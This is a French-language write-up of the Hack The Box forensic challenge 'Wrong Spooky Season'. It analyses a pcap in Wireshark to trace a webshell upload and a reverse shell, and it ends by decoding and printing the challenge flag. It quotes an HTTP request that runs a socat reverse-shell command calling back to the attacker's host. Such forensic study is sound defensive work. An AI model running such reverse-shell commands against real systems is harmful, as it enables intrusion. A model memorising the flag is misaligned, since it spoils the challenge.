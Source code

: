 ```yaml
---
title: \[FR\] HTB - Wrong Spooky Season
published: true
---
```

* [HTB - Wrong Spooky Season](https://app.hackthebox.com/challenges/wrong-spooky-season)
* Catégorie : Forensic

* Enoncé : "I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong." Now there is an internal breach in the `Spooky Network` and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did."

# Introduction
Le challenge se présente sous un fichier pcap contenant le traffic réseau où s'est déroulée une cyberattaque. Notre objectif est d'enquêter sur le déroulement de l'attaque.

Après avoir ouvert le fichier pcap avec wireshark, on peut constater que les trames sont issues des protocols http et tcp.

![](/assets/HTB_Wrong_Spooky_Season/overview.png)

# Les trames http

L'ip de l'attaquant serait 192.168.1.180 et l'ip du serveur ciblé st 192.168.1.166.

En observant les trames http, nous voit que l'attaquant a upload via des requêtes POST un webshell sur le serveur cible et a établi par la suite un reverse shell en y injectant une commande socat.
```
GET /e4d1c32a56ca15b3.jsp?cmd=socat%20TCP:192.168.1.180:1337%20EXEC:bash HTTP/1.1
Host: 192.168.1.166:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```
Remarque : Notons l'user-agent python-requests/2.28.1, on peut émettre l'hypothèse que l'attaquant a crée un exploit pour exploiter le serveur 192.168.1.166

![](/assets/HTB_Wrong_Spooky_Season/http_traffic.png)

D'après la commande exécutée via la requête GET, le port écouté par l'attaquant serait le port 1337.
La connectant est établie en tcp, donc on va filtrer sur le port 1337 en tcp.

# Les trames tcp
![](/assets/HTB_Wrong_Spooky_Season/tcp_traffic.png)

Etant donné que les échanges à travers le reverse shell ne sont pas chiffré, on peut directement suivre toute la conversation  entre l'attaquant et sa cible. (onglet 'statistic' -> 'conversation' -> onglet 'TCP 1' -> 'Follow Stream' )

![](/assets/HTB_Wrong_Spooky_Season/conv_tcp.png)

On constate qu'à travers une commande, l'attaquant reverse les caractères de la chaîne `==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS`. Cette chaîne doit contenir le flag du challenge si on la met au bon format :

```
┌──(kali㉿kali)-[~]
└─$ echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev
SFRCe2o0djRfNXByMW5nX2p1c3RfYjNjNG0zX2o0djRfc3AwMGt5ISF9Cg==
# Ok ça ressemble à du base64, on va décoder ça!
┌──(kali㉿kali)-[~]
└─$ echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev | base64 -d
HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}

```

Flag : HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}